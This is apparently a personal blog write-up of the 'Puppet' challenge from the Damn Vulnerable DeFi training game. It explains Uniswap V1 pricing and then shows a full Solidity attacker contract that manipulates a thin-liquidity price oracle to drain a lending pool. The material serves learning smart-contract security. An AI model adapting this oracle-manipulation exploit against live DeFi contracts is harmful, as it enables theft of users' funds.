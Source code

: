 ```yaml
---
date: 2025-09-25T15:43:29+02:00
# description: ""
# image: ""
publishDate: 2025-10-04
showTableOfContents: false
# tags: ["",]
title: "Puppet Writeup"
type: "post"
---
```


Welcome back! This will be a series of three posts on the Uniswap challenges from [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/). I've just finished [Puppet V3](https://www.damnvulnerabledefi.xyz/challenges/puppet-v3/) and learned a lot about the protocol, so I thought it would be nice to write down what I understood and see if I can explain it clearly.

> "You do not really understand something unless you can explain it to your grandmother."
>
> *— Albert Einstein*

{{< spoiler "Spoiler" >}}
No, Einstein didn't actually say that.
{{< /spoiler >}}

## Uniswap (very approximate) overview

*Disclaimer: this is not a real explanation of the protocol. If you want to understand it properly, I suggest reading the [Rare Skills Blog](https://rareskills.io/uniswap-v3-book).*

### What is Uniswap?

> In 2018, Hayden Adams created the Uniswap Protocol, a decentralized protocol that introduced a new way to exchange value online. By using Automated Market Makers (AMMs), the protocol enabled peer-to-peer trading of digital assets without the need for intermediaries or any central authority.

This (or something similar) is what I found when I searched for an explanation of the protocol. But, knowing almost nothing about decentralized finance, I had no idea what it meant.

The idea is actually simple: Uniswap (in its first version, which will be the focus of this post) lets you create exchanges between any ERC20 token and ETH. And what about Automated Market Makers? That just means all the exchanges are managed by smart contracts and fully automated (you don't say?), whereas other solutions rely on order books, which I don't know how they work, but I imagine something like:

* Alice: "Hey! I'm selling 1 token for 3 ETH, anyone interested??"
* Bob: "That's a scam! I'm willing to pay at most 2 ETH!"
* Charlie: "Hey Bob, I'll sell for 2 ETH!"
* *Bob and Charlie exchange and are happy; Alice is sad.*

**Achtung!** This *might* be an oversimplification of the actual protocol.

### How does it work?

It's pretty clear why an order-book solution can work, but **how does an automated solution work?** **How does it determine the “right” price? How does the price change?** **Where does the liquidity come from?** The answer to all these questions lies in the magic Uniswap curve $x \cdot y = k$. Except for the liquidity, that's just people providing tokens and ETH to the pool to earn fees — not so magical. But let's focus on the curve.

Consider an exchange between DVT (Damn Valuable Token, from the Damn Vulnerable DeFi challenges) and ETH. The exchange pool has reserves of both DVT and ETH: when a user wants to swap DVT for ETH they send DVT to the pool and the pool sends back ETH. **But how much ETH?** That's where the curve comes into play.

Call $x$ the amount of DVT in the pool and $y$ the amount of ETH. The exchange follows the invariant $k = x\cdot y$. This means that if we want to swap $\Delta x$ DVT, we will receive $\Delta y$ ETH such that $(x + \Delta x)(y - \Delta y) = k$ (ignoring fees). Visualized on the curve it looks something like this:

![](./img1.png)

{{< spoiler "Spoiler" >}}
I know this is terrible, but I have no idea how to make decent graphs and insert them in markdown — any suggestions are very welcome.
{{< /spoiler >}}

Now you might ask, **Why this curve? Why not a random different one?** I don't know - that's why I called it magical - but probably they found it works well. It also makes sense on how the price is computed I guess.

Speaking of price: when we talk about price, we mean the price of the asset on the $x$-axis relative to the one on the $y$-axis, and it is computed as $p = \frac{y}{x}$. So in the example above, the price is initially $p_1 = \frac{y}{x} = 4$, meaning 1 DVT is worth 4 ETH. After the swap it becomes $p_2 = \frac{y - \Delta y}{x + \Delta x} = 1$. That's a huge price shift! **How can we avoid that?**

### The role of liquidity

Let's analyze the curve above. We are on $x \cdot y = 10^4$ and initially the reserves are 50 DVT and 200 ETH. Then we swap 50 DVT — an amount equal to the entire DVT reserve of the pool! — so it's not surprising this has a big impact on price. The problem here is that the pool has very low liquidity.

Suppose instead the curve was $x \cdot y = 10^{20}$ and the price was the same, i.e. reserves $x = 5\cdot 10^9$ and $y = 20\cdot 10^9$. If we make the same swap for 50 DVT, what happens?

$$
\begin{align*}
\Delta x &= 50 \\\\[1em]
x + \Delta x &= 5\cdot 10^9 + 50 \\\\[1em]
y - \Delta y = \frac{10^{20}}{5\cdot 10^9 + 50} &\simeq 19999999800 \\\\[1em]
\Delta y \simeq y - 19999999800 &= 200 \\\\[1em]
p_2 = \frac{y - \Delta y}{x + \Delta x} &\simeq 3.99999992
\end{align*}
$$

The price shifted from 4 to 3.99999992 with the same swap amount — much lower impact. So, the takeaway:

- __Low liquidity__ &rarr; high price impact and the possibility to manipulate the price in your favor.
- __High liquidity__ &rarr; well, it's just the opposite of the one above.

## Challenge Writeup

Now we should know enough to tackle the challenge! I will omit all the $10^{18}$ multipliers and work with normal decimal numbers. The important thing is to remember that the code uses multiplications and divisions by $10^{18}$ because ERC20 tokens handle decimals that way (I know it's not a satisfying explanation, but it's not that important).

### Challenge overview

The setting is simple:

* Uniswap v1 exchange pool between DVT and ETH, with initial reserves of 10 DVT and 10 ETH.
* DVT lending pool, with an initial balance of 100,000 DVT, that requires 2× the price of the borrowed amount in ETH (quite expensive).
* Player, with 1,000 DVT and 25 ETH.
* Goal: empty the lending pool and get all the tokens.

The lending pool uses the exchange as a price oracle:

```solidity
function calculateDepositRequired(uint256 amount) public view returns (uint256) {
    return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
}

function _computeOraclePrice() private view returns (uint256) {
    // calculates the price of the token in wei according to Uniswap pair
    return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
}
```

Right now, if we wanted to borrow all 100,000 tokens from the pool, since the exchange price is 1, we'd need $100{,}000 \cdot 2 = 200{,}000$ ETH — which is just a bit more than we have.

### Manipulating the price

We can immediately notice that the exchange pool has very low liquidity and we hold 100 times the DVT reserve! This means we can easily lower the DVT price by swapping all our tokens. Let's see what happens if we swap all 1,000 DVT:

$$
\begin{align*}
k &= 100 \\\\[1em]
\Delta x &= 1000 \\\\[1em]
x + \Delta x &= 1010 \\\\[1em]
y - \Delta y = \frac{100}{1010} &\simeq 0.099 \\\\[1em]
p_2 = \frac{y - \Delta y}{x + \Delta x} &\simeq 0.000098
\end{align*}
$$

Now the ETH required to borrow the entire 100,000 DVT from the lending pool is $100{,}000 \cdot 0.000098 \cdot 2 = 19.6$, which is within our resources. In the actual attack the amount needed will be slightly higher (around 19.66) due to fees and rounding.

### The final contract

```solidity
contract Attacker {
    IUniswapV1Exchange public uniswapV1Exchange;
    PuppetPool public lendingPool;
    DamnValuableToken public token;
    address recovery;

    uint256 constant UNISWAP_INITIAL_TOKEN_RESERVE = 10e18;
    uint256 constant UNISWAP_INITIAL_ETH_RESERVE = 10e18;
    uint256 constant PLAYER_INITIAL_TOKEN_BALANCE = 1000e18;
    uint256 constant PLAYER_INITIAL_ETH_BALANCE = 25e18;
    uint256 constant POOL_INITIAL_TOKEN_BALANCE = 100_000e18;

    constructor(address _uniswapV1Exchange, address _lendingPool, address _token, address _recovery) {
        uniswapV1Exchange = IUniswapV1Exchange(_uniswapV1Exchange);
        lendingPool = PuppetPool(_lendingPool);
        token = DamnValuableToken(_token);
        recovery = _recovery;
    }

    function attack() external {
        token.approve(address(uniswapV1Exchange), PLAYER_INITIAL_TOKEN_BALANCE);
        uint256 tokensBought = uniswapV1Exchange.tokenToEthSwapInput(
            PLAYER_INITIAL_TOKEN_BALANCE,
            1, // min_eth
            block.timestamp * 2 // deadline
        );
        console.log("ETH received from Uniswap:", address(this).balance);
        console.log("Tokens bought from Uniswap:", tokensBought);
        console.log("Lending pool deposit required:", lendingPool.calculateDepositRequired(POOL_INITIAL_TOKEN_BALANCE));

        lendingPool.borrow{value: address(this).balance}(POOL_INITIAL_TOKEN_BALANCE, address(this));

        console.log("Player token balance after borrowing:", token.balanceOf(address(this)));

        token.transfer(recovery, POOL_INITIAL_TOKEN_BALANCE);
    }

    receive() external payable {}
}
```

## Conclusion

This first challenge was quite simple and can be completed in a very intuitive way — without fully understanding Uniswap internals (which is exactly how I solved it at first). However, introducing the Uniswap curve and getting comfortable with price computation will be very useful for the next challenges. But before that, I might write a post about a chess tournament I recently played — we’ll see.

To be continued.
